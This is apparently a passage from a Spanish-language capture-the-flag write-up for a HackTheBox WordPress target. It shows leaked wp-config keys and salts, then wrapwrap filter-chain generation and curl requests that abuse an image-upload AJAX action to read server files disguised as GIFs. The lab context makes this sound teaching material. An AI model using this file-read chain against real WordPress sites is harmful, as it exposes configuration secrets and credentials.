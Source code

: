 ```bash
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 * @since 2.6.0
define( 'AUTH_KEY',         '(6xl?]9=.f9(<(yxpm9]5<wKsyEc+y&MV6CjjI(0lR2)_6SWDnzO:[g98nOOPaeK' );
define( 'SECURE_AUTH_KEY',  'F<3>KtCm^zs]Mxm Rr*N:&{SWQexFn@ wnQ+bTN5UCF-<gMsT[mH$m))T>BqL}%8' );
define( 'LOGGED_IN_KEY',    ':{yhPsf}tZRfMAut2$Fcne/.@Vs>uukS&JB04 Yy3{`$`6p/Q=d^9=ZpkfP,o%l]' );
define( 'NONCE_KEY',        'sC(jyKu>gY(,&: KS#Jh7x?/CB.hy8!_QcJhPGf@3q<-a,D#?!b}h8 ao;g[<OW;' );
define( 'AUTH_SALT',        '_B& tL]9I?ddS! 0^_,4M)B>aHOl{}e2P(l3=!./]~v#U>dtF7zR=~LnJtLgh&KK' );
define( 'SECURE_AUTH_SALT', '<Cqw6ztRM/y?eGvMzY(~d?:#]v)em`.H!SWbk.7Fj%b@Te<r^^Vh3KQ~B2c|~VvZ' );
define( 'LOGGED_IN_SALT',   '_zl+LT[GqIV{*Hpv>]H:<U5oO[w:]?%Dh(s&Tb-2k`1!WFqKu;elq7t^~v7zS{n[' );
define( 'NONCE_SALT',       't2~PvIO1qeCEa^+J}@h&x<%u~Ml{=0Orqe]l+DD7S}%KP}yi(6v$mHm4cjsK,vCZ' );
/**#@-*/
 * WordPress database table prefix.
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
$table_prefix = 'wp_';
 * For developers: WordPress debugging mode.
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
define( 'WP_DEBUG', false );
/* Add any custom values between this line and the "stop editing" line. */
/* That's all, stop editing! Happy publishing. */
/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';


```

Confirmamos que es un container dado que la base de datos se encuentra alojada en la 172.17.0.1 que es un rango IP que usa docker por defecto; vamos a sacar el wp-settings.php

```bash
(venv) ➜  wrapwrap git:(main) ✗ python3 wrapwrap.py '../wp-settings.php' 'GIF89a' '' 500000
[+] Wrote filter chain to chain.txt (size=1451).

(venv) ➜  wrapwrap git:(main) ✗ curl 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-d "action=upload_image_from_url&id=1&accepted_files=image/gif&url=${evil_url}"

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/02\/1-6.png","attachment_id":161}%  

(venv) ➜  wrapwrap git:(main) ✗ curl 'http://blog.bigbang.htb//wp-content//uploads//2025//02//1-5.png' -o wpsettings.png
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3348  100  3348    0     0   1592      0  0:00:02  0:00:02 --:--:--  1592
(venv) ➜  wrapwrap git:(main) ✗ python3 wrapwrap.py '../wp-settings.php' 'GIF89a' '' 500000
(venv) ➜  wrapwrap git:(main) ✗ strings wpsettings.png 

GIF89a<?php
 * The base configuration for WordPress
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 * This file contains the following configurations:
 * * Database settings
```